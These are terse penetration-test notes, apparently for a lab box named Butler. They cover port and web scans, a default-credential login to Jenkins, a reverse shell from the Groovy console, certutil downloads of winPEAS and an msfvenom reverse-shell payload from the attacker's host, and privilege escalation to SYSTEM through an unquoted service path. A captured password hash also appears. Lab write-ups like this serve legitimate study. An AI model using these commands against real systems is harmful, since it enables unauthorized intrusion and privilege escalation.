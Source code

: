 nmap -A -p- 192.168.86.198
        Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-07 18:03 GMT
        Nmap scan report for butler.lan (192.168.86.198)
        Host is up (0.010s latency).
        Not shown: 65523 closed tcp ports (conn-refused)
        PORT      STATE SERVICE       VERSION
        135/tcp   open  msrpc         Microsoft Windows RPC ***
        139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
        445/tcp   open  microsoft-ds?
        5040/tcp  open  unknown
        7680/tcp  open  pando-pub?
        8080/tcp  open  tcpwrapped (https://security.stackexchange.com/questions/23407/how-to-bypass-tcpwrapped-with-nmap-scan)
             (Try not using -A, but specify the -sV switch )
        8080/tcp  open  http          Jetty 9.4.41.v20210516**
        49664/tcp open  msrpc         Microsoft Windows RPC
        49665/tcp open  msrpc         Microsoft Windows RPC
        49666/tcp open  msrpc         Microsoft Windows RPC
        49667/tcp open  msrpc         Microsoft Windows RPC
        49668/tcp open  msrpc         Microsoft Windows RPC
        49678/tcp open  msrpc         Microsoft Windows RPC
        Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
        Host script results:
        |_nbstat: NetBIOS name: BUTLER, NetBIOS user: <unknown>, NetBIOS MAC: 08:00:27:6c:c3:71 (Oracle VirtualBox virtual NIC)
        | smb2-security-mode:
        |   3.1.1:
        |_    Message signing enabled but not required
        |_clock-skew: -1h00m02s
        | smb2-time:
        |   date: 2021-12-07T17:10:21
        |_  start_date: N/A

ffuf - no good
nikto -h::
        + Server: Jetty(9.4.41.v20210516)
        + The anti-clickjacking X-Frame-Options header is not present.
        + The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
        + Uncommon header 'x-hudson' found, with contents: 1.395
        + Uncommon header 'x-jenkins' found, with contents: 2.289.3
        + Uncommon header 'x-jenkins-session' found, with contents: 293592d3
        + All CGI directories 'found', use '-C none' to test none
        + Uncommon header 'x-instance-identity' found, with contents: MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAw43hS+kkhDV0LAwc2YVGFglH5IN1zZfBknSOOnM8uzQe2KSrC0PdLp+bTTNiK80Ill04oLGN5LBVAxwJ0koN0X2FPwGLqM6lJQlw9sESCUK0r6SfyTJJMZbsMaUKgwSFePnEbbheH4tPmNxGtI71812KggjsT22Oi5jKHv3rt2OM3dTa4Ma6jwLwke1Iz/rIYmRuW2pUanPVvyg7V2ZiWfqkMkWWs0WN9Y1MnGfyDrIGMYlDIFDZ1w2J25tBTzCR/tWMXOzyZh34hsbZX8a1bzFa7q+DsfL0D/hdDIG6pOuBO8JhffUsKe7qr4Xp2HQ1z/3AQLo4xYq8ojWOq7xX6wIDAQAB
        + Uncommon header 'x-hudson-theme' found, with contents: default
        + Uncommon header 'cross-origin-opener-policy' found, with contents: same-origin
        + ERROR: Error limit (20) reached for host, giving up. Last error: error reading HTTP response
        + Scan terminated:  9 error(s) and 8 item(s) reported on remote host
        + End Time:           2021-12-07 18:44:28 (GMT0) (320 seconds)

RPC - https://book.hacktricks.xyz/pentesting/135-pentesting-msrpc
        msf6 auxiliary(scanner/dcerpc/tcp_dcerpc_auditor) > run
        192.168.86.198 - UUID 99fcfec4-5260-101b-bbcb-00aa0021347a 0.0 OPEN VIA 135 ACCESS GRANTED 00000000000000000000000000000000000000000000000005000000
        [*] 192.168.86.198:135    - Scanned 1 of 1 hosts (100% complete)
        [*] Auxiliary module execution completed

impacket -

dir -u http://192.168.86.198:8080 -x php -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 --wildcard 2>/dev/null | grep "Status: 200
            /login
            /oops - Jenkins 2.289.3
telnet <ip> 7680
        nothing

msf6 exploit(multi/http/jenkins_metaprogramming) > run
        no luck with msf & jenkins

burpsuite - brute force
        try default creds && similiar names - admin:password, groovy:jenkins
            **    creds jenkins:jenkins - success    **
                https://www.jenkins.io/security/advisory/2021-11-04/ - CVE's
        script console - "Groovy Script"
                upload revshell - https://github.com/gquere/pwn_jenkins
                       shell must be cmd.exe because it's on windows:
                       setup listener on port
                       success
        (sudo python3 -m http.server 80)
                       C:\Program Files\Jenkins>
                       cd C:\Users\butler:
        certutil.exe -urlcache -f http://<ip>/winpeas.exe winpeas.exe (upload winpeas.exe in victim machine)
                  + Enumerating Security Packages Credentials
                    Version: NetNTLMv2
                    Hash:    butler::BUTLER:1122334455667788:9f10d1e8d5de321eafb775fc35764308:0101000000000000856a514757edd701fab398136deb05e4000000000800300030000000000000000000000000300000ff343832e0d09b41a9126e738bd50b412ff9d18df9e88f7fa32ae4c565f0d3200a00100000000000000000000000000000000000090000000000000000000000
                  + Able to start ssh.agent
            unquoted service paths:
                        WiseBootAssistant(WiseCleaner.com - Wise Boot Assistant)[C:\Program Files (x86)\Wise\Wise Care 365\BootTime.exe] - Auto - Running - No quotes and Space detected
                        YOU CAN MODIFY THIS SERVICE: AllAccess
                        File Permissions: Administrators [AllAccess]
                        Possible DLL Hijacking in binary folder: C:\Program Files (x86)\Wise\Wise Care 365 (Administrators [AllAccess])
                        In order to optimize system performance,Wise Care 365 will calculate your system startup time.
                Theory: system runs through path & tries to run each dir as an .exe - as a "check"
                        Able to upload script into "spaces" path to exe. IE: ../Wise/Wise.exe
                            Another tool to look into: "Powerup.exe for privesc"
        msfvenom -p windows/shell_reverse_tcp LHOST=wlan0 LPORT=1337 -f exe -o Wise.exe https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae
                        cd C:/Program Files (x86)/Wise ("icacls ." will list permissions of dir)
                        certutil.exe -urlcache -f http://<ip>/Wise.exe Wise.exe
                            nc -lnvp 1337
                            C:/Program Files (x86)/Wise/B.exe (If ran this way - will execute as butler)
                                Must stop service that is running : "sc stop WiseBootAssistant"::
                                    SERVICE_NAME: WiseBootAssistant **((sq query WiseBootAssistant % to make sure it is stopped))**
                                            TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
                                            STATE              : 3  STOP_PENDING
                                                                    (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
                                            WIN32_EXIT_CODE    : 0  (0x0)
                                            SERVICE_EXIT_CODE  : 0  (0x0)
                                            CHECKPOINT         : 0x3
                                            WAIT_HINT          : 0x1388

                            sc start WiseBootAssistant (This will start the service as "System" because of the unquoted dir B.exe file)
                                **nc -lnvp 1337 should now have NT Authority/System shell**
                                    See "unquoteddir_privesc.png"



